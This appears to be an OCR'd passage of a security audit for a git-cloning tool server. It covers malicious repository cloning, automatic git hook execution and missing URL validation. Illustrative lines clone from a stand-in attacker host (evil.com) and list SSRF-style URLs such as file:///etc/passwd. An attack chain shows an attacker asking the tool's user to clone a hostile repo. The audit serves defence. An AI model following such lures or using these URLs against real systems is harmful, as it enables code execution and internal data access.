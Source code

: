 #### V4.2: Malicious Repository Cloning
- **Severity**: HIGH
- **CWE**: CWE-494 (Download of Code Without Integrity Check)

**Details**:
If the server allows specifying repository URLs (documentation unclear):
```typescript
// Potentially vulnerable:
git_clone({ url: "http://evil.com/malicious.git" })
  // Repository may contain:
  // - Malicious git hooks (pre-commit, post-checkout)
  // - Malicious submodules
  // - Large files (DoS)
```

**Attack Chain**:
```
1. Attacker: "Clone this example project to learn the setup"
2. URL: http://evil.com/malicious.git
3. Git clones repo with malicious .git/hooks/post-checkout
4. Hook executes on checkout
5. Code execution achieved
```

#### V4.3: Git Hooks Execution
- **Severity**: CRITICAL (if hooks enabled)
- **CWE**: CWE-912 (Hidden Functionality)

**Details**:
Git repositories can contain executable hooks:
- `.git/hooks/pre-commit`
- `.git/hooks/post-checkout`
- `.git/hooks/pre-push`

These execute **automatically** on git operations.

**Docker Mitigation**: If running in Docker, hooks execution is isolated. But:
- Volume mounts may expose host filesystem
- Docker escape vulnerabilities exist
- Shared Docker socket = root access

#### V4.4: No Repository URL Validation
- **Severity**: MEDIUM-HIGH
- **CWE**: CWE-918 (SSRF via Git URLs)

**Details**:
Git supports multiple protocols:
```bash
# These may all be vulnerable:
git clone http://internal.corp/repo.git
git clone git://internal.corp/repo.git
git clone file:///etc/passwd
git clone ssh://user@internal.corp/repo.git
```
